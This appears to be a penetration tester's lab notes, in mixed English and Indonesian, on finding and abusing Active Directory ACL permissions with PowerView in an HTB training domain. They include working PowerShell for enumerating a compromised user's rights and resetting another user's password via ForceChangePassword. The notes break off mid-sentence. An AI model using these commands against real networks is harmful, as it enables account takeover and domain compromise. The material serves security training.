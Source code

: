 ```yaml
---
layout: default
---
```

# ACL - Enumeration &  Abuse

## Why are ACEs Important?

💡 Attackers utilize ACE entries to either further access or establish persistence. 
These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the  impact that these can have if applied incorrectly. 
They cannot be  detected by vulnerability scanning tools, and often go unchecked for  many years, especially in large and complex environments. During an assessment where the client 
has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 
Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:



```python
	
- ForceChangePassword:  abused with Set-DomainUserPassword
- Add Members:  abused with Add-DomainGroupMember
- GenericAll:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- GenericWrite:  abused with Set-DomainObject
- WriteOwner:  abused with Set-DomainObjectOwner
- WriteDACL:  abused with Add-DomainObjectACL
- AllExtendedRights:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- Addself:  abused with Add-DomainGroupMember
```

## ACL Enumeration With Powerview

**Assume we have username wley as compromised user**

### ForceChangePassword
#### using Get-DomainObjectACL
````
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##Vulnerable Output
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529

# ObjectAceType with above value meaning for Force-change-password
(https://learn.microsoft.com/id-id/windows/win32/adschema/r-user-force-change-password)
````


#### Using -ResolveGUIDs Flag
```powershell
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##output Yang Diharapkan
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
```

#### Enumerate All User
```powershell
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

```

### Abusing Force Change Password
**changing wley password without knowing his old password**

1. Store Password user kita ke powershell credential
   
```powershell
   PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
   PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

3. Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
```powershell
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

#### Generic Write

```powershell
# Generic All Enumeration
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
*Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group. and with 

```
